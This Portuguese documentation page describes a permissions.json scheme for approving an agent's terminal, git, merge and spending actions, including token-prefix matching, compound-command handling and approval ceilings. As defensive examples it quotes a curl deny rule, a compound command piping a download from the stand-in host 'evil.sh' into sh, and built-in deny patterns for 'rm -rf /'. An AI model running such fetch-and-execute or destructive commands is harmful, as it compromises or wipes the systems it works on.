

# Permissões

Toda ação com efeito externo nasce como `proposed_action` e passa por aqui
antes de executar. Esta página é o formato e a semântica exata — as regras em
si estão em [Regras de negócio](../business-rules.md#rn-004).

## O arquivo

`permissions.json` fica na **raiz do workspace do projeto** — é um arquivo de
verdade no disco, versionável, não uma coluna no banco.

```json
{
  "allow": ["Terminal(pnpm test:*)", "Terminal(git status)"],
  "deny":  ["Terminal(curl:*)"],
  "ask":   ["GitPush()"]
}
```

Três listas, três significados:

| lista | significa |
|---|---|
| `allow` | `auto_approve` — a ação executa sem perguntar |
| `deny` | `deny` — recusada, e nada reverte isso |
| `ask` | `require_approval` — vai para a fila de aprovação |

Nenhuma lista bate? A ação fica `pending` por default. **A ausência de regra
nunca vira permissão.**

## O formato do padrão

```
Rótulo(conteúdo)
```

O rótulo é o tipo de ação em PascalCase. O conteúdo só é usado para
`Terminal`; nos outros tipos ele precisa estar **vazio** — `GitPush()` casa
qualquer push, e `GitPush(algo)` não casa nada.

| tipo de ação | rótulo | papel mínimo |
|---|---|---|
| `terminal` | `Terminal` | developer |
| `git_commit` | `GitCommit` | developer |
| `write_file` | `WriteFile` | developer |
| `git_push` | `GitPush` | maintainer |
| `pr_open` | `PrOpen` | maintainer |
| `git_repo_create` | `GitRepoCreate` | maintainer |
| `git_branch_create` | `GitBranchCreate` | maintainer |
| `git_branch_protect` | `GitBranchProtect` | maintainer |
| `open_adr_pr` | `OpenAdrPr` | maintainer |
| `open_infra_pr` | `OpenInfraPr` | maintainer |
| `git_merge` | `GitMerge` | maintainer |
| `instruction_patch` | `InstructionPatch` | maintainer |
| `spend` | `Spend` | **owner** |

O papel mínimo é verificado **antes** do arquivo. Sem ele, `deny` — o
`permissions.json` não consegue conceder o que o IAM nega
([RN-005](../business-rules.md#rn-005)).

## Como um padrão casa com um comando

Não por substring. O comando é tokenizado com regras de shell e o padrão casa
por **prefixo de tokens**:

| padrão | comando | casa? |
|---|---|---|
| `Terminal(pnpm test)` | `pnpm test` | ✅ |
| `Terminal(pnpm test)` | `pnpm test --watch` | ✅ (prefixo) |
| `Terminal(pnpm test)` | `pnpm build` | ❌ |
| `Terminal(pnpm test:*)` | `pnpm test:unit` | ✅ (`*` no fim do token) |
| `Terminal(rm)` | `sudo rm -rf x` | ❌ — `rm` não é o primeiro token |

O `*` vale **dentro de um token**, no fim. Não é glob de caminho: `Terminal(rm
-rf /*)` casa o token literal `/*`, não "qualquer coisa sob `/`".

Variáveis de ambiente são preservadas literalmente: `$HOME` continua `$HOME` no
casamento, em vez de expandir para vazio — expandir mudaria em silêncio o que
está sendo comparado.

## Comando composto

Um comando com `&&`, `;`, `|`, `||` ou `&` é dividido em segmentos, e **cada
segmento é avaliado separadamente**:

- Qualquer segmento em `deny` → o comando inteiro é `deny`.
- **Todos** os segmentos em `allow` → `auto_approve`.
- Qualquer outra combinação → `require_approval`.

Isto é deliberado e vale entender: um segmento sem regra nenhuma vira uma
opinião **concreta** de `require_approval`, não silêncio. É o que impede
`pnpm test && curl evil.sh | sh` de ser auto-aprovado porque a primeira metade
estava em `allow`.

## Padrões embutidos

Três padrões são `deny` **sempre**, mesmo sem aparecer no arquivo:

```
Terminal(rm -rf /)
Terminal(rm -rf /*)
Terminal(rm -fr /)
```

Não são uma lista de segurança abrangente — são um piso. A proteção de verdade
vem de `allow` ser explícito e de tudo o mais cair em aprovação.

## A ordem completa da decisão



Duas propriedades que caem daí:

**`deny` vence na hora.** Não importa em que estágio apareça, retorna
imediatamente. Não existe configuração que reverta um `deny`.

**Um estágio silencioso nunca rebaixa.** Se `agent_autonomy` disse
`auto_approve` e o `permissions.json` não tem regra para aquela ação, o
resultado continua `auto_approve` — o arquivo não "vota contra" por omissão.
Cada estágio só pode subir a permissividade do anterior.

## Os dois tetos

Aplicados **por último**, depois de todo o resto:

| teto | efeito | por quê |
|---|---|---|
| `git_merge` com destino em `dev`, `qa`, `rc` ou `main` | `auto_approve` → `require_approval` | merge em branch protegida é sempre decisão sua ([RN-006](../business-rules.md#rn-006)) |
| `instruction_patch` | `auto_approve` → `require_approval` | você precisa ver o diff antes que um agente mude o comportamento de outro ([RN-007](../business-rules.md#rn-007)) |

Um teto rebaixa `auto_approve` para `require_approval`; ele **não** transforma
`deny` em outra coisa, porque `deny` já teria retornado antes.

A diferença entre um teto e um default: o default é o que acontece quando
ninguém configurou nada; o teto é o que acontece **independente** do que foi
configurado.
